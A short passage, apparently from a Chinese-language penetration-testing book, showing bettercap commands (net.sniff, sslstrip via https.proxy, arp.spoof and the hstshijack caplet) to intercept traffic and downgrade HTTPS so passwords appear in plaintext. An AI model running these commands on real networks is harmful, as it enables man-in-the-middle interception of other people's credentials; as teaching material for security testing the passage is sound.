![](img/B17765_12_13.png)

图 12.13：使用 bettercap 捕获 HTTP 协议的明文密码

为了剥离 SSL 流量，我们可以利用 `https.proxy` 模块，如下所示：

```
" net.sniff on
" set https.proxy.sslstrip true
" https.proxy on
" arp.spoof on
" hstshijack/hstshijack 
```

`hstshijack` caplet 将使攻击者能够查看当 Web 服务器将 HTTP 流量重定向到 HTTPS 时的请求，攻击者可以利用重定向迫使 Web 服务器响应 HTTP。`bettercap` 中的前述命令必须使攻击者能够查看 HTTPS 流量，如*图 12.14*所示：

![](img/B17765_12_14.png)

